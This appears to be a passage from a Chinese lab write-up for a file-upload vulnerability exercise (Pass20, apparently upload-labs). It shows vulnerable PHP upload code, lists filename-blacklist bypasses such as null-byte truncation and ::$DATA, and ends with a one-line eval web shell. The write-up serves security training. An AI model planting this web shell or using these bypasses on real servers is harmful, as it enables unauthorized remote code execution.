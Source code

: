~~~ shell
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
~~~

![Pass20_02](./img/Pass20_02.PNG)



+ 产生漏洞的代码

~~~ shell
$_POST传参导致文件上传路径可控

$file_name = $_POST['save_name'];
$img_path = UPLOAD_PATH . '/' .$file_name;
~~~



可利用的方法很多

~~~ shell
.user.ini绕过——Pass05
大小写绕过——Pass06
末尾加空格或点或::$DATA绕过——Pass07、08、09
apache多后缀解析绕过
POST型00截断绕过
~~~



+ 原理

~~~ tex
没有对上传的文件做判断，只对用户输入的文件名做判断
后缀名黑名单
上传的文件名用户可控
黑名单用于用户输入的文件后缀名进行判断
move_uploaded_file()还有这么一个特性，会忽略掉文件末尾的 /.
~~~



+ 编写脚本<code>TwentyFirstMethod.php</code>

~~~ php
<?php
	@eval($_POST['TwentyFirst']);
?>
~~~
